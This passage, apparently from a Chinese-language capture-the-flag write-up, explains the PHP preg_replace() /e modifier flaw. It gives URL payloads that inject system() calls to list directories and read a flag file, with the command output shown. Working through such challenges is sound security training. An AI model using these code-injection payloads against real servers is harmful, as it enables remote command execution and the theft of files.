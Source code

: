 ```php
    }

}
```

这里，当**pre_replace的参数pattern输入/e的时候 ,参数replacement的代码当作PHP代码执行**

> **preg_replace()函数**
>
> preg_replace($pattern, $replacement, $subject) 
>
> **作用：**搜索subject中匹配pattern的部分， 以replacement的内容进行替换。 
>
> **$pattern:**   要搜索的模式，可以是字符串或一个字符串数组。 
>
> **$replacement:**   用于替换的字符串或字符串数组。 
>
> **$subject:**   要搜索替换的目标字符串或字符串数组。

**接着关于/e漏洞**

> /e 修正符使 preg_replace() 将 replacement 参数当作 PHP 代码（在适当的逆向引用替换完之后）
> **提示：**要确保 replacement 构成一个合法的 PHP 代码字符串，否则 PHP 会在报告在包含 preg_replace() 的行中出现语法解析错误。



根据这个函数的漏洞构造payload，我们上bp，这里要记得要用127.0.0.1来访问

```
/index.php?pat=/123/e&rep=system("ls")&sub=123
```

果然发现了一个奇怪的

```
<br >Welcome My Admin ! <br >css
index.html
index.php
js
layui
logo.png
s3chahahaDir  <---就是这个文件夹里
start.sh
视图.png
```

继续

```
/index.php?pat=/123/e&rep=system("ls+s3chahahaDir")&sub=123
/index.php?pat=/123/e&rep=system("ls+s3chahahaDir/flag")&sub=123
/index.php?pat=/123/e&rep=system("cat+s3chahahaDir/flag/flag.php")&sub=123
```

拿到flag

```php
<br >Welcome My Admin ! <br ><?php
$flag = 'cyberpeace{d2785b4577f2a5213b82a6df42a84cb1}';
?>
```
